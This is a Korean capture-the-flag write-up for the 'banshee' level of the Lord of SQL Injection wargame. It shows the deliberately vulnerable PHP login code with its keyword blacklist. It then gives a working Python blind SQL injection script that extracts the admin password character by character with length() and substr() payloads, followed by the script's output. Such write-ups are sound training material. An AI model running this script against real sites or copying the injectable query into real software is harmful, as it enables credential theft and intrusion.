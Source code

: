 ```yaml
---
title: "[Lord of SQL Injection] LoS - banshee 문제풀이"
date: 2019-07-03
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


분명히 하루에 한개씩 올리기로 했는데 몇 주 정신없다가 정신차려보니 벌써 7월이다.
몇 개 안남았으니 후딱 올려야겠다.
`SQLite`의 세 번째 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from member where id='admin' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/banshee.db");
  if(preg_match('/sqlite|member|_/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from member where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id']) echo "<h2>login success!</h2>";

  $query = "select pw from member where id='admin'"; 
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("banshee"); 
  highlight_file(__FILE__);
?>
```

이번에는 `id`는 입력받지 않고, `pw`만 입력 받는다.
`id='admin'`는 이미 있기 때문에, 문제를 풀기 위해서는 `admin`의 정확한 `pw`값을 입력해야 한다.
그래서 아래와 같이 소스코드를 구현했다.  

```python
import requests

flag = ""
length = 0

url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + " -- "
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'login success!' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'login success!' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `1' or id='admin' and length(pw)=1` 형태의 쿼리를 입력 해 `pw`의 길이를 알아냈다.
이 후, `pw`의 값을 한 글자 씩 찾아 비교하기 위해 `substr(pw, 1, 1)='a'`의 쿼리를 사용했다.
해당 코드를 실행하면 결과는 다음과 같다.  

```bash
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 03
[+] Found 3 : 031
[+] Found 4 : 0313
[+] Found 5 : 03130
[+] Found 6 : 031309
[+] Found 7 : 0313091
[+] Found 8 : 0313091b
[+] Found password :  0313091b
[+] End
```

정상적으로 `pw` 값을 추출할 수 있었다.
해당 값을 아래와 같이 입력하면 문제를 풀 수 있다.

```plain
?pw=0313091b
```

---

```php
--------------------------------------------------------------------------
query : select id from member where id='admin' and pw='0313091b'
--------------------------------------------------------------------------

login success!
BANSHEE Clear!

<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/banshee.db");
  if(preg_match('/sqlite|member|_/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from member where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id']) echo "<h2>login success!</h2>";

  $query = "select pw from member where id='admin'"; 
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("banshee"); 
  highlight_file(__FILE__);
?>
```

---

```plain
BANSHEE Clear!!
```